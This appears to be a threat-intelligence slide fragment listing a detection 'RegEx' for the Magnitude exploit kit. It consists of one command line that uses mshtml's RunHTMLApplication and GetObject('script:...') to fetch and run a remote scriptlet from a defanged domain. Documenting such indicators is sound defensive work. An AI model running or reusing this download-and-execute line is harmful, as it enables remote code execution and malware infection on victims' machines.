

RegEx :
javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject
('script:http://dx30z30a4t11l7be .lieslow[.]faith/
5aad4b91a0da20d4faab0991bdbe7138')
# MAGNITUDE EK